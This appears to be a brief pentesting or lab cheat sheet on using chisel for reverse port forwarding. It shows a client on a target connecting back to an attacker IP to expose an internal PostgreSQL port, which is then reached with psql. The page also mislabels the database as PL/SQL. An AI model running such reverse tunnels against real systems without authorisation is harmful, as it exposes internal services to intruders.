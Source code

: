 # chisel
- server and client in a single binary
- runs on linux and/or windows
1. Run the server
```
chisel server --socks5 --reverse
```
Example output
```
$ chisel server --socks5 --reverse
2024/12/25 18:44:39 server: Reverse tunnelling enabled
2024/12/25 18:44:39 server: Fingerprint nhPTxim2cD4wf1js50X038Zl4o7v5wfwCrdC0doFuy8=
2024/12/25 18:44:39 server: Listening on http://0.0.0.0:8080
```

2. Connect to the server and forward 1337 to 5432 to expose the PL/SQL database
```
chisel client <attacker-ip>:8080 R:1337:127.0.0.1:5432
```
Example output
```
$ ./chisel client 10.10.14.43:8080 R:1337:127.0.0.1:5432
2024/12/26 00:46:13 client: Connecting to ws://10.10.14.43:8080
2024/12/26 00:46:13 client: Connected (Latency 8.141219ms)
```

3. Verify connection at the server
```
$ chisel server --socks5 --reverse
2024/12/25 18:44:39 server: Reverse tunnelling enabled
2024/12/25 18:44:39 server: Fingerprint nhPTxim2cD4wf1js50X038Zl4o7v5wfwCrdC0doFuy8=
2024/12/25 18:44:39 server: Listening on http://0.0.0.0:8080
2024/12/25 18:46:12 server: session#1: tun: proxy#R:1337=>5432: Listening
```

4. Connect through the tunnel
```
$ psql -U db_user -h 127.0.0.1 -p 1337 survey
Password for user db_user: 
psql (15.8 (Debian 15.8-0+deb12u1), server 14.15 (Ubuntu 14.15-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off)
Type "help" for help.

survey=>
```
